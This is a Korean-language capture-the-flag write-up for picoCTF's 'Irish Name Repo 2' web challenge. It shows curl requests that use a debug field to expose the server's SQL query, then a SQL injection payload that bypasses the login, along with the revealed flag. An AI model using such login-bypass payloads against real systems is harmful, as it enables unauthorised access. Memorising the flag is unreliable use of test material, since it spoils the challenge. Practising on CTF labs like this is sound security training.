 ```yaml
---
tags:
  - picoCTF
  - SQL-injection
  - Medium
  - web
Date: 2024-09-28T17:07:00
---
```

# Description
> There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

# Walk-Through

2024.09.27에 풀었던 Irish Name Repo의 두 번째 시리즈다. 똑같이 SQL Injection을 이용해서 풀 수 있는 문제이며 Irish Name Repo 1과 다른 점은 다음이다.
```
╰─$ curl -X POST https://jupiter.challenges.picoctf.org/problem/52849/login.php1\
-d "username=Admin&password=1234&debug=0"
```
Irish Name Repo 1은 간단한 SQL Injection으로 flag를 얻을 수 있었는데 반해 Irish Name Repo 2는 위와 같이 debug 필드가 존재하며 이를 "1"로 설정해 요청을 보내면 서버에서 사용된 SQL이 무엇인지 확인할 수 있다는 점이다.
```
╭─jako@prompt-pro ~/private/git-repo/pjt-java-temp/fastcampus-payment
╰─$ curl -X POST https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=Admin&password=1234&debug=1"
<pre>username: Admin
password: 1234
SQL query: SELECT * FROM users WHERE name='Admin' AND password='1234'
</pre><h1>Login failed.</h1>%
```
생성된 SQL을 보면 name과 paasword 값에 입력된 값이 그대로 적용된다.  또한 Irish Name Repo 1에서 사용된 SQL-Injection Payload를 그대로 사용하면 로그인에 실패한다. 
```
╰─$ curl -X POST https://jupiter.challenges.picoctf.org/problem/52849/login.php \
-d "username=1'-- or 1=1;&password=1234&debug=1"
<pre>username: 1'-- or 1=1;
password: 1234
SQL query: SELECT * FROM users WHERE name='1'-- or 1=1;' AND password='1234'
</pre><h1>SQLi detected.</h1>%
```
입력을 토대로 생성된 SQL을 보니 name 입력 후의 문장을 동작하지 않게 주석 처리해보자.
```
╰─$ curl -X POST https://jupiter.challenges.picoctf.org/problem/52849/login.php \
-d "username=admin'; &password=1234&debug=1"
<pre>username: admin';
password: 1234
SQL query: SELECT * FROM users WHERE name='admin'; ' AND password='1234'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>%
```